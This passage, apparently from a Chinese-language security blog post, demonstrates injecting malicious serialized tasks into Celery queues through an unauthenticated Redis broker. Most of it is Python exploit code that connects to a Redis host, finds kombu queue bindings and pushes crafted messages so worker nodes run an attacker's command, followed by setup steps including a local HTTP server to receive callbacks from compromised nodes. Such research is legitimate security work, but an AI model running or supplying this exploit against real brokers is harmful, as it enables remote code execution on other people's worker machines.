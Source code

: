 ```python
    message = {"body": body,"headers": {},"content-encoding": "binary","content-type": "application/x-python-serialize","properties": {"body_encoding": "base64","reply_to": "c8b55284-c490-3927-85c5-c68a7fed0525","correlation_id": "1d8fa7ae-12f6-4229-9eb9-99d5bbb9dabe","delivery_info": {"routing_key": "celery","exchange": "celery","priority": 0},"delivery_mode": 2,"delivery_tag": "027bd89a-389e-41d1-857a-ba895e6eccda"}}
    return json.dumps(message)

def exp(seed):
    try:
        ip, port = seed.split(':')
    except ValueError as ex:
        ip, port = seed, 6379
    r = redis.Redis(ip, int(port), socket_connect_timeout=5)
    keys = r.keys()
    info = dict(succeed=False, keys=list())
    for key in keys:
        matched = re.search(r'^_kombu\.binding\.(?P<queue>.*)', key)
        if matched:
            queue_name = matched.group('queue')
            message = create_evil_message(
                create_evil_task_body(evil_command.format(queue_name))
            )
            r.lpush(queue_name, message)

exp('192.168.99.100')
```

为了测试攻击脚本，首先需要在 `192.168.99.100` 上开启 Redis 服务并配置为外部可连且无需验证，然后在本地起一个 SimpleHTTPServer 用于接收节点执行命令的请求，最后可直接通过终端配置 Broker 为 Redis 起一个默认的 worker：

```
celery worker --broker='redis://:@192.168.99.100/0'
```

整个过程演示：

![](/images/articles//2016-09-22-attacking-distributed-nodes-by-message-queue-injection/15.gif)
